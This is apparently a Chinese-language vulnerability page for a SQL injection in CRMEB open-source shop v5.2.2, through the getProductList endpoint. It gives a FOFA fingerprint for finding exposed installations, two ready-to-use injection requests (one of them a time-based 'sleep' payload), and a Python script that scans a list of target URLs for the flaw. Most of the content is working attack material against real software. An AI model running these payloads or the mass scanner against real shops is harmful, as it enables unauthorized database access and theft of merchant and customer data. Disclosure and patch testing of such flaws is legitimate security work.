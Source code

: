 ## CRMEB开源商城v5.2.2存在sql注入漏洞

CRMEB v.5.2.2 中的 SQL 注入漏洞允许远程攻击者通过 ProductController.php 文件中的 getProductList 函数获取敏感信息。

## fofa

```
icon_hash="-847565074"
```
![image](https://github.com/user-attachments/assets/143f9169-59a7-4275-aa34-957714529d3d)

## poc

```
/api/products?limit=20&priceOrder=&salesOrder=&selectId=)
/api/products?limit=20&priceOrder=&salesOrder=&selectId=0*if(now()=sysdate(),sleep(6),0) 
```

![image-20240616153608225](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161536278.png)

![image-20240616153711514](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161537576.png)

```python
import requests
def check_vulnerability(url):
    # Remove trailing slash if present
    if url.endswith('/'):
        url = url[:-1]
    # Construct the URL with the required endpoint
    test_url = f"{url}/api/products?limit=20&priceOrder=&salesOrder=&selectId=)"
    try:
        response = requests.get(test_url)
        # Check if the response contains the specific string indicating a vulnerability
        if 'PDOConnection.php' in response.text:
            print(f"\033[31m[HIGH RISK]\033[0m Vulnerability found in: {url}")
        else:
            print(f"\033[32m[SAFE]\033[0m No vulnerability found in: {url}")
    except requests.RequestException as e:
        print(f"\033[33m[ERROR]\033[0m Could not connect to {url}. ")#Error: {e}")
def main():
    # Read URLs from url.txt
    with open('url.txt', 'r') as file:
        urls = file.readlines()

    for url in urls:
        url = url.strip()  # Remove any leading/trailing whitespace characters
        if not url.startswith('http'):
            url = 'http://' + url  # Add http scheme if missing
        check_vulnerability(url)
if __name__ == "__main__":
    main()
```



## 漏洞来源

- https://github.com/phtcloud-dev/CVE-2024-36837/blob/main/CVE-2024-36837.py
- https://7nkdkj-my.sharepoint.com/:w:/g/personal/krypt0n_7nkdkj_onmicrosoft_com/Ea8dW8YuldRMqgCy7KHjnxABTJCVPLShHIJfqQk684mD3A?e=0qmN7t
